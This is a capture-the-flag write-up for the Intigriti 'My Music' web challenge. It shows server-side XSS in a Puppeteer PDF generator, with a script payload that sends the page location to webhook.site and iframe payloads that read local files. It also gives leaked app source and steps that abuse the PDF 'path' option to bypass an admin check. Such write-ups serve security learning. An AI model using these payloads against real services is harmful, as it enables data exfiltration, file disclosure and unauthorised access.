


# My Music [10 Solves]

## Description

> Checkout my new platform for sharing the tunes of your life! 🎶
>
> Author: holmesec
>
> <https://mymusic.ctf.intigriti.io> || <https://mymusic2.ctf.intigriti.io>

## Flag

INTIGRITI{0verr1d1ng_4nd_n0_r3turn_w4s_n3ed3d_for_th15_fl4g_to_b3_e4rn3d}

## Solution

### Server Side XSS

In `/profile` page, input Spotify track code to `<s>XSS</s>` and clicked `Generate profile card`, then got the following PDF.
Found Server Side XSS.



Exploiting this vulnerability to leak information.

Path Disclosure:

- payload: `<script>location.href = "https://webhook.site/<yourwebhook>/?data=" + location.href</script>`
- got: `file:///app/tmp/75f1b1fa-e0d2-4355-8aff-a9b4b132f4c3.html`

I guess that the source code endpoint is /app/app.js.

Leak source code:

- payload:
  - `<iframe src=file://<filename> width=1000px height=2000px></iframe>`
  - `<script>document.write(file:///app/app.js)</script>`

The following is the leaked source code.

<details><summary>/app/app.js</summary>

```javascript
const express = require('express')
const { engine } = require('express-handlebars')
const cookieParser = require('cookie-parser')
const { auth } = require('./middleware/auth')
const app = express()
app.engine('handlebars', engine())
app.set('view engine', 'handlebars')
app.set('views', './views')
app.use(express.json())
app.use(cookieParser())
app.use(auth)
app.use('/static', express.static('static'))
app.use('/', require('./routes/index'))
app.use('/api', require('./routes/api'))
app.listen(3000, () => {
 console.log('Listening on port 3000...')
})
```

</details>

<details><summary>/app/routes/index.js</summary>

```javascript
const express = require('express')
const { requireAuth } = require('../middleware/auth')
const { isAdmin } = require('../middleware/check_admin')
const { getRandomRecommendation } = require('../utils/recommendedSongs')
const { generatePDF } = require('../utils/generateProfileCard')
const router = express.Router()
router.get('/', (req, res) => {
    const spotifyTrackCode = getRandomRecommendation()
    res.render('home', { userData: req.userData, spotifyTrackCode })
})
router.get('/register', (req, res) => {
    res.render('register', { userData: req.userData })
})
router.get('/login', (req, res) => {
    if (req.loginHash) {
        res.redirect('/profile')
    }
    res.render('login', { userData: req.userData })
})
router.get('/logout', (req, res) => {
    res.clearCookie('login_hash')
    res.redirect('/')
})
router.get('/profile', requireAuth, (req, res) => {
    res.render('profile', { userData: req.userData, loginHash: req.loginHash })
})
router.post('/profile/generate-profile-card', requireAuth, async (req, res) => {
    const pdf = await generatePDF(req.userData, req.body.userOptions)
    res.contentType('application/pdf')
    res.send(pdf)
})
router.get('/admin', isAdmin, (req, res) => {
    res.render('admin', { flag: process.env.FLAG || 'CTF{DUMMY}' })
})
module.exports = router
```

</details>

<details><summary>/app/middleware/check_admin.js</summary>

```javascript
const { getUser, userExists } = require('../services/user')
const isAdmin = (req, res, next) => {
    let loginHash = req.cookies['login_hash']
    let userData
    if (loginHash && userExists(loginHash)) {
        userData = getUser(loginHash)
    } else {
        return res.redirect('/login')
    }
    try {
        userData = JSON.parse(userData)
        if (userData.isAdmin !== true) {
            res.status(403)
            res.send('Only admins can view this page')
            return
        }
    } catch (e) {
        console.log(e)
    }
    next()
}
module.exports = { isAdmin }
```

</details>

<details><summary>/app/middleware/auth.js</summary>

```javascript
const { userExists, getUser } = require('../services/user')
const auth = (req, res, next) => {
    let loginHash = req.cookies['login_hash']
    if (loginHash && userExists(loginHash)) {
        try {
            let userData = JSON.parse(getUser(loginHash))
            req.userData = userData
            req.loginHash = loginHash
        } catch (e) {
            console.log(e)
        }
    }
    next()
}
const requireAuth = (req, res, next) => {
    if (!req.userData) {
        return res.redirect('/login')
    }
    next()
}
module.exports = { auth, requireAuth }
```

</details>

<details><summary>/app/routes/api.js</summary>

```javascript
const express = require('express')
const { body, cookie } = require('express-validator')
const {
    addUser,
    getUserData,
    updateUserData,
    authenticateAsUser,
} = require('../controllers/user')
const router = express.Router()
router.post(
    '/register',
    body('username').not().isEmpty().withMessage('Username cannot be empty'),
    body('firstName').not().isEmpty().withMessage('First name cannot be empty'),
    body('lastName').not().isEmpty().withMessage('Last name cannot be empty'),
    addUser
)
router.post(
    '/login',
    body('loginHash').not().isEmpty().withMessage('Login hash cannot be empty'),
    authenticateAsUser
)
router
    .get('/user', getUserData)
    .put(
        '/user',
        body('firstName')
            .not()
            .isEmpty()
            .withMessage('First name cannot be empty'),
        body('lastName')
            .not()
            .isEmpty()
            .withMessage('Last name cannot be empty'),
        body('spotifyTrackCode')
            .not()
            .isEmpty()
            .withMessage('Spotify track code cannot be empty'),
        cookie('login_hash').not().isEmpty().withMessage('Login hash required'),
        updateUserData
    )
module.exports = router
```

</details>

<details><summary>/app/controllers/user.js</summary>

```javascript
const {
    createUser,
    getUser,
    setUserData,
    userExists,
} = require('../services/user')
const { validationResult } = require('express-validator')
const addUser = (req, res, next) => {
    const errors = validationResult(req)
    if (!errors.isEmpty()) {
        return res.status(400).send(errors.array())
    }
    const { username, firstName, lastName } = req.body
    const userData = {
        username,
        firstName,
        lastName,
    }
    try {
        const loginHash = createUser(userData)
        res.status(204)
        res.cookie('login_hash', loginHash, { secure: false, httpOnly: true })
        res.send()
    } catch (e) {
        console.log(e)
        res.status(500)
        res.send('Error creating user!')
    }
}
const getUserData = (req, res, next) => {
    const errors = validationResult(req)
    if (!errors.isEmpty()) {
        return res.status(400).send(errors.array())
    }
    const { loginHash } = req.body
    try {
        const userData = getUser(loginHash)
        res.send(JSON.parse(userData))
    } catch (e) {
        console.log(e)
        res.status(500)
        res.send('Error fetching user!')
    }
}
const updateUserData = (req, res, next) => {
    const errors = validationResult(req)
    if (!errors.isEmpty()) {
        return res.status(400).send(errors.array())
    }
    const { firstName, lastName, spotifyTrackCode } = req.body
    const userData = {
        username: req.userData.username,
        firstName,
        lastName,
        spotifyTrackCode,
    }
    try {
        setUserData(req.loginHash, userData)
        res.send()
    } catch (e) {
        console.log(e)
        res.status(500).send('Error updating user!')
    }
}
const authenticateAsUser = (req, res) => {
    const errors = validationResult(req)
    if (!errors.isEmpty()) {
        return res.status(400).send(errors.array())
    }
    const { loginHash } = req.body
    if (userExists(loginHash)) {
        res.cookie('login_hash', loginHash, { httpOnly: true })
        res.send()
    } else {
        res.status(404).send('User not found')
    }
}
module.exports = { addUser, getUserData, updateUserData, authenticateAsUser }
```

</details>

<details><summary>/app/services/user.js</summary>

```javascript
const fs = require('fs')
const path = require('path')
const { createHash } = require('crypto')
const { v4: uuidv4 } = require('uuid')
const dataDir = './data'
const createUser = (userData) => {
    const loginHash = createHash('sha256').update(uuidv4()).digest('hex')
    fs.writeFileSync(
        path.join(dataDir, `${loginHash}.json`),
        JSON.stringify(userData)
    )
    return loginHash
}
const setUserData = (loginHash, userData) => {
    if (!userExists(loginHash)) {
        throw 'Invalid login hash'
    }
    fs.writeFileSync(
        path.join(dataDir, `${path.basename(loginHash)}.json`),
        JSON.stringify(userData)
    )
    return userData
}
const getUser = (loginHash) => {
    let userData = fs.readFileSync(
        path.join(dataDir, `${path.basename(loginHash)}.json`),
        {
            encoding: 'utf8',
        }
    )
    return userData
}
const userExists = (loginHash) => {
    return fs.existsSync(path.join(dataDir, `${path.basename(loginHash)}.json`))
}
module.exports = { createUser, getUser, setUserData, userExists }
```

</details>

<details><summary>/app/utils/generateProfileCard.js</summary>

```javascript
const puppeteer = require('puppeteer')
const fs = require('fs')
const path = require('path')
const { v4: uuidv4 } = require('uuid')
const Handlebars = require('handlebars')
const generatePDF = async (userData, userOptions) => {
    let templateData = fs.readFileSync(
        path.join(__dirname, '../views/print_profile.handlebars'),
        {
            encoding: 'utf8',
        }
    )
    const template = Handlebars.compile(templateData)
    const html = template({ userData: userData })
    const filePath = path.join(__dirname, `../tmp/${uuidv4()}.html`)
    fs.writeFileSync(filePath, html)
    const browser = await puppeteer.launch({
        executablePath: '/usr/bin/google-chrome',
        args: ['--no-sandbox'],
    })
    const page = await browser.newPage()
    await page.goto(`file://${filePath}`, { waitUntil: 'networkidle0' })
    await page.emulateMediaType('screen')
    let options = {
        format: 'A5',
    }
    if (userOptions) {
        options = { ...options, ...userOptions }
    }
    const pdf = await page.pdf(options)
    await browser.close();
    fs.unlinkSync(filePath)
    return pdf
}
module.exports = { generatePDF }
```

</details>

### Source Code Reading

Looking at the source code, and the following is the points I've noticed.

- [POST] /api/register: Create User
  - Create an object from the JSON data submitted by the user: `userData = {"username": "yourname", "firstName": "yourfirstname", "lastName": "yourlastname"}`
  - Save `userData` to a JSON file named /app/data/sha256(uuidv4).json file
- [POST] /api/login: Login
  - Check the existence of the /app/data/usersubmitvalue.json file
    - If it exists, set the Set-Cookie header to `login_hash=usersubmittvalue` and return a status code of 200
    - If it does not exist, return a 404 as a login failure
- [POST] /profile/generate-profile-card: Generate PDF

  ```javascript
  router.post('/profile/generate-profile-card', requireAuth, async (req, res) => {
      const pdf = await generatePDF(req.userData, req.body.userOptions)
      res.contentType('application/pdf')
      res.send(pdf)
  })
  ```
  
  - `req.body.userOptions` is user-controllable
  - The `req.body.userOptions` submitted by the user is passed to the function `generatePDF`, and it is used as `page.pdf(options)` in Puppeteer.
  - If a user passes the option as `"path": "/tmp/foobar1234.pdf"`, the generated PDF is saved to `/tmp/foobar1234.pdf`.

  - Pupeteer references:
    - [Page.pdf() method \| Puppeteer](https://pptr.dev/api/puppeteer.page.pdf)
    - [PDFOptions interface \| Puppeteer](https://pptr.dev/api/puppeteer.pdfoptions)

      > | Property | Modifiers | Type   | Description                   | Default                                                     |
      > |----------|-----------|--------|-------------------------------|-------------------------------------------------------------|
      > | path     | optional  | string | The path to save the file to. | undefined, which means the PDF will not be written to disk. |

- [GET] /admin: Return flag
  - In `isAdmin` middleware, read /app/data/usersubmittvalue.json file and parse it as json.
    If `"isAdmin": true` is found, returns the flag stored as environment variable.
  - If `JSON.parse(userData)` throws an error, only `console.log(e)` is invoked in the catch block, and no return.
    After that, `next()` is called, allowing bypassing the `isAdmin` middleware.

    `isAdmin` middleware:

    ```javascript
    const { getUser, userExists } = require('../services/user')
    const isAdmin = (req, res, next) => {
        let loginHash = req.cookies['login_hash']
        let userData
        if (loginHash && userExists(loginHash)) {
            userData = getUser(loginHash)
        } else {
            return res.redirect('/login')
        }
        try {
            userData = JSON.parse(userData)
            /* bypassed
            if (userData.isAdmin !== true) {
                res.status(403)
                res.send('Only admins can view this page')
                return
            }
            */
        } catch (e) {
            console.log(e)
        }
        next()
    }
    module.exports = { isAdmin }
    ```

    Throw error tested:

    ```console
    $ # download PDF named as generate-profile-card.pdf
    
    $ node
    Welcome to Node.js v18.13.0.
    Type ".help" for more information.
    
    > let userData = fs.readFileSync('generate-profile-card.pdf', { encoding: 'utf8' })
    undefined
    > JSON.parse(userData);
    Uncaught SyntaxError: Unexpected token % in JSON at position 0
    ```

Therefore, I can get the flag by the following Exploit Step:

### Exploit Step

1. User1
   1. send a request to /profile/generate-profile-card path with the following JSON as the body.
      This will result in the PDF being saved to /app/data/foobar1234.json file.

       ```json
       {
         "userOptions": {
           "path": "/app/data/foobar1234.json"
         }
       }
       ```

1. User2
   1. send a request to /api/login path with Login hash as `foobar1234`.
      Note: It redirects to /login path from /profile path, this is expected behavior.
      The `requireAuth` middleware redirects to /login path since `req.userData` is undefined.
   1. send a request to /admin path manually



## Post Exploitation

/app/views/print_profile.handlebars

```hbs
<!-- (snip) -->
      <p style="word-break: break-all">
        (https://open.spotify.com/embed/track/{{ #if userData.spotifyTrackCode
        }}{{{userData.spotifyTrackCode}}}{{ else}}5iUQMwxUPdJBFeGkePtM66{{/if}
      </p>
    </div>
    <script>
      const trackContentElm = document.getElementById("trackContent");
      const oembedURL =
        "https://open.spotify.com/oembed?url=https://open.spotify.com/track/{{ #if userData.spotifyTrac{{ userData.spotifyTrackCode }}{{ else}}5iUQMwxUPdJBFeGkePtM66{{/if}}";
      fetch(oembedURL)
        .then((res) => res.json())
        .then((res) => {
          let img = document.createElement("img");
          img.src = res.thumbnail_url;
          img.style = "width: 250px";
          let p = document.createElement("p");
          p.innerText = res.title;
          p.style = "text-align: center";
          trackContentElm.append(img, p);
        });
    </script>
  </body>
</html>
```

Server Side XSS is occured because it uses three bracket `{{{` instead of two bracket `{{`.

[Introduction \| Handlebars](https://handlebarsjs.com/guide/#html-escaping)

> Because it was originally designed to generate HTML, Handlebars escapes values returned by a {{expression}}. If you don't want Handlebars to escape a value, use the "triple-stash", {{{.

## References

- [XSS with Dynamic PDF \| Exploit Notes](https://exploit-notes.hdks.org/exploit/web/security-risk/xss-with-dynamic-pdf/)
- [Server Side XSS (Dynamic PDF) - HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)
